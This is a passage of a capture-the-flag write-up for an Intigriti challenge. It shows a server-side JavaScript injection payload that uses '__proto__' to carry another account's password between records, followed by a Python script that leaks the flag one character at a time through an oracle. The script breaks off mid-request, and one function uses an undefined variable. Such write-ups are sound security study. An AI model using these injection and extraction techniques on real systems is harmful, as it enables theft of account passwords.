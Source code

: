 The idea is to "persist" the flag, here is one example:

```js
function search() {
  return this.email === "anything@anything.com" || 
    this.username == "PinkDraconian" && 
    (() => {this.__proto__.flag = this.password;})() ||
    this.flag=="INTIGRITI{Y0uD1d1T}" ? 
      this.username == "username_true" : 
      this.username == "username_false"
    || ""
}
```

When the search function meets `PinkDraconian`, it will store the password in `this.__proto__`. Then, we can get this password when this function is processing other accounts.

For above, the return value is `username_true`, which prove that this works.

I also thought about similar things before, but somehow not success. After having the ability to store the flag, we can reuse the "oracle" to get the flag with less requests:

``` py
import requests
import json
import concurrent.futures
import string
import time

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='

SKIP_CREATE_ORACLE = 0
MAX_WORKERS = 15
charset = string.printable
req_count = 0

def create_oracle(c):
  global req_count
  session = requests.session()
  session.post(LOGIN_URL, data={
    "username": "account_oracle_" + c,
    "password": "account_oracle_" + c,
  })
  req_count+=1
  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)

def leak_char(index):
  global req_count
  payload = 'anything@anything.com" || this.username=="PinkDraconian" && (() => {this.__proto__.flag = this.password;})() || this.flag && this.username == "account_oracle_"+this.flag[' + str(index) +'] || "'
  session = requests.session()

  name = "account_get_" + str(index)

  session.post(LOGIN_URL, data={
    "username": name,
    "password": name
  })
  session.post(EDIT_URL, data={
    "email": payload
```
